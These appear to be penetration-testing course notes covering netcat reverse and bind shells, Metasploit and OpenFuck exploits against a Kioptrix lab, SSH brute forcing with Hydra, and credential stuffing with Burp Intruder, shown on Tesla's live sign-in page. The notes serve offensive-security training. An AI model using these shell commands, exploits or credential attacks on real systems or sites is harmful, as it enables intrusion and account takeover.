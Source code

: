 # Exploitation Basics

Different types of shells we are going to see:

`Reverse Shell` - most common (95% of the time..)

Reverse -> The victim connects to us instead of us to them

Shell	-> Access to a machine 
Target is connecting, attack box is listening 
![nc-rev-shell](https://user-images.githubusercontent.com/87711310/209445636-9d4acd2c-7e00-4a33-bf1c-221adc3176bf.png)


We open our `4444` port and it is listening. After we fire off an exploit, the target will connect to the same port and execute a `/bin/sh` shell
> i.e. all we do with a reverse shell is listen. Target connects to us.

`Bind Shell` (5% of the time..)
We open up a port on the target machine, then we connect to it

![nc-bind-shell](https://user-images.githubusercontent.com/87711310/209445627-1bcccbbb-e428-4936-90ba-b97a11a2a142.png)

We fire off an exploit, the exploit opens up a port, then it is listening for us to connect. When we connect on that port and get the shell
> i.e. we connect to the target

> least used, most typically on an external assessment 
e.g. when we have to bypass some sort of firewall

## Netcat

### Reverse Shell - victim connects to us
On 'attacker'
```
nc -nvlp 4444
```
`listening on [any] 4444...`

On 'victim'
```
nc 10.0.2.4 4444 -e /bin/bash
```

On 'attacker'
`connect to [IP] from (UNKNOWN) [IP] port`
> can now run commands

### Bind Shell - we connect to the victim
On 'victim'
```
nc -nvlp 4444 -e /bin/bash
```
> i.e. listening and at the same time offering the shell
`listening on [any] 4444...`

On 'attacker'
```
nc 10.0.2.4 4444
```
> We get shell


## Staged versus non-staged payloads

`Payload` - what we are going to run as an exploit. I.e. when we run an exploit on a target, that is called a payload. We send it to attempt to get a shell on the machine

Two main types of payloads:

`Non-staged`
- Sends exploit shellcode all at once
- Larger in size and won't always work
> Example: windows/meterpreter_reverse_tcp

`Staged`
- Sends payload in stages
- Can be less stable
> Example: windows/meterpreter/reverse_tcp

the meterpreter/ identifies it is a staged payload i.e. meterpreter is stage 1, reverse_tcp stage 2 etc. while meterpreter_reverse_tcp is all one stage

If you have a payload that does not work or fails, can try the other type of payload

---
We are going to try and exploit Kioptrix with the Samba 2.2 vulnerability 'trans2open' exploit
(`# searchsploit Samba 2.2`)
```
Run metasploit > `search trans2open`
We know victim is running RedHat, so we will choose the 'Linux' module

```
1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
```
msf> use 1
msf> options --> specify host and port (set rhosts) OR
msf> show targets (not necessary in this case but sometimes we have attack choices)
msf> run OR msf> exploit
```

If it is not working, ,and we show options again, now metasploit will show us payload options

First, we can see that we are running a staged payload
Good idea to change LPORT 4444 as it is the default meterpreter port and easily detected
	
`set payload linux/x86/...` hit TAB
We see a couple staged meterpreter payloads.
We find a couple 'shell' options and finally some that are unstaged. We will try the shell_reverse_tcp
Check payload in options and then run again

We got root with metasploit!

## Manual exploitation

Try Github OpenLuck exploit
After installing it, compile it
```
gcc -o open OpenFuck.c -lcrypto
```

```
 Usage: ./open target box [port] [-c N]
```

we had Apache 1.3.20 and RedHat Linux so look for that
Here: 0x6b

Syntax:
```shell
./open 0x6b 10.0.2.15 -c 40
```
We get root shell - Cool

---

If we see `SSH` we will try to Brute Force it
```
1. To test password strenghth
2. See if we can get in with a weak or default password
3. Test how well the Blue team performs
	- Do they catch us, do they see we are trying to brute force. Should alert! Be loud! Hope to be caught.
```
Helps to fine tune Blue Team

We can test that using Brute Force as we saw the open SSH port

Using `Hydra`

```shell
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.0.2.15:22 -t 4 -V
```
Using 4 threads/attempts, -V for verbose, -P for the password list
> can Ctrl-C and the session will exit but with the option to resume it. A file is written wchich we can run with Hydra -R (for repeat)

Can also try using `Metasploit`
```shell
msf> search ssh
Found `auxiliary/scanner/ssh/ssh_login`
msf> set username root
msf> set rhosts 10.0.2.15
msf> set verbose true
msf> set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf> run
```


## Credential Stuffing
Injecting breached account credentials in hopes of account takeover

![cred-stuff](https://user-images.githubusercontent.com/87711310/209445909-404885ce-6e01-4dca-b19e-479e5754f462.png)


Taking found credentials and 'spray and pray', throwing them at a website

Install standard `FoxyProxy`
Options > Name it Burp Suite > HTTP
Give it IP `127.0.0.1`, port `8080`, Save
Can now turn it on and then also open BurpSuite

Instead of having to do the whole 'Preferences' > Advanced options etc. can now just turn this on and off

We go to the tesla sign in page and put an email and a password. Turn intercept ON and click 'Sign in'
Go to line from Burp results and `Send to Intruder`
highlight `email` and `password` and click 'Add' ('Clear' everything else before that)

Specify attack type: `Pitchfork`
Go to Payloads: take list of users and copy paste it
On second list, take passwords and paste it

Once the attack is initiate, it will try all the combinations of the usernames and passwords we provided, at the "variables" we specified. List 1 and 2 will only try usernames and passwords line by line in order 1-2, 1-2 so on, not all with all. "Start Attack" etc.

Check status code number, check response to see whether any results where successful. There is a grep that we can match what kind of output to leave out.

If we want to do `password spraying` it is using a list of username without a known password. This time, clear password variable and keep only email/username.

Gather and enter list of all usernames found, and we can add a password like password=XYZ

BUT make sure we don't log out any users. Need to know the log out policy. Do 1-2 at a time, and every now and then (so it can reset the amount of tries)

e.g. password=Password123!, also Attack="Sniper"
In payloads, only the emails have been kept
++ always check default credentials

If we are doing Brute Force and Scanning activities, make sure to note down if it alerted anyone oor if anyone noticed / detected it

